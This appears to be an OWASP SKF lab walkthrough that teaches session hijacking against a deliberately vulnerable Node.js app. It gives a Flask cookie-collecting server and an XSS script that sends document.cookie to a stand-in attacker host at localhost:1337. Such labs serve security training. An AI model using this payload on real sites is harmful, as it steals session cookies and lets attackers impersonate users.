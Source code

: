 # HttpOnly Session Hijacking

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-session-hijacking-xss
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-session-hijacking-xss
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

The attacker can compromise the session token by using malicious code or programs running at the client-side. The example shows how the attacker could use an XSS attack to steal the session token.

Because the server keeps track of the current authenticated user by means of the value of the session cookie, whenever this session cookie gets compromised an attacker is able to impersonate this user by changing his current session cookie with the compromised session cookie in his browsers session storage.

Lets start the application and login with the default credentials.

username : admin  
password: admin

![](../../.gitbook/assets/nodejs/Session-Hijacking-XSS/1.png)

After authenticating to the server we can see that the user has a text-area
field at his dissposal to insert user input. When we press submit we find that
this user supplied input is being reflected on the side of the client. This is a perfect indicator that we might want to start testing for cross site scripting attacks.

Refer to the XSS labs for more information how to test!

Now, at this point we established that the application is suspectible for cross site scripting attacks after playing around with some payloads. However, the goal for this lab is to obtain the users session cookie to perform a session hijacking attack and to be able to impersonate the user on the server.

We can tell if we can hijack the session information by inspecting the cookies and see if the HTTP/HttpOnly attribute is enabled for the session cookie.

Highlighted in red we find this attribute and see that it is not activated for this application

![](../../.gitbook/assets/nodejs/Session-Hijacking-XSS/2.png)

Now, we can inject the a piece of malicious javascript to see if we can prompt an alert box that displays the applications session information.

![](../../.gitbook/assets/nodejs/Session-Hijacking-XSS/3.png)

![](../../.gitbook/assets/nodejs/Session-Hijacking-XSS/4.png)

## Exploitation

Now that we have determined that we can

1\) inject malicious javascript

2\) The HttpOnly attribute is not set for the session cookie

We can start building our malicious payload and hijack the session information to our malicious webserver.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<steal_cookie>", methods=['GET'])
def start(steal_cookie):
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to > app.py and run the commands below to install some dependencies.

```
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to inject the malicious piece of javascript that is responsible for hijacking the victims session information.

![](../../.gitbook/assets/nodejs/Session-Hijacking-XSS/5.png)

```html
<script>
  new Image().src = "http://localhost:1337/?stolen_cookie=" + document.cookie;
</script>
```

After injecting the malicious javascript in the text-area field we see the stolen cookie in the server logs.

![](../../.gitbook/assets/nodejs/Session-Hijacking-XSS/6.png)

The attacker can now change the session cookie value in his browers console by the session cookie that we hijacked with our malicous payload to "hijack" the victims account.
